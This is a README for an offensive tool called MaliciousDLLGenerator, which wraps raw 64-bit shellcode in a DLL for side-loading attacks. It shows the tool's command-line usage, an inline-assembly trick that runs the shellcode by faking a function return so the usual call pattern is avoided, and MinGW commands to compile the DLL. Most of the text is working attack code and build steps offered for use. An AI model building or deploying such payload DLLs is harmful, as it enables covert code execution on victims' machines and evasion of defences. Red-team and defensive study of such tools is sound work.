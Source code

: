 # MaliciousDLLGenerator

DLL Generator for side loading attack

### Currently only support 64 bits shellcode

# Usage

```
$ python gen-dll.py -h

MaliciousDLLGenerator - Mr.Un1k0d3r - RingZer0 Team
---------------------------------------------------


[-] Shellcode size is limited to 1024 bytes
usage: gen-dll.py [-h] -o OUTPUT -s SHELLCODE [-t TYPE]

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output filename
  -s SHELLCODE, --shellcode SHELLCODE
                        Raw shellcode file path
  -t TYPE, --type TYPE  DLL type (default,oart)
```

# Shellcode gadget

Instead of using the standard shellcode calling structure

```
char shellcode[] = {};
int(*execute)(void);
execute = (int(*)())shellcode;
execute();
```

Which result in the following assembly code

```
call rax
```

The DLL is mimicking a standard function return by using the following code

```
        CHAR payload[] = "";
        asm volatile ("mov %%rax, %0\n\t"
                     "push %%rax\n\t"
                     "ret"
                     :
                     : "r" (payload));
```

Which result in following assembly code

```
mov rax, rsp
push rax
ret
```

# Compiling from source using GCC

```
C:\> x86_64-w64-mingw32-g++.exe -Wall -DBUILD_DLL -O2 -c maindll.cpp -o maindll.o
C:\> x86_64-w64-mingw32-g++.exe -shared -Wl,--dll maindll.o -o yourdll.dll -s 
```

# Credit
Mr.Un1k0d3r RingZer0 Team
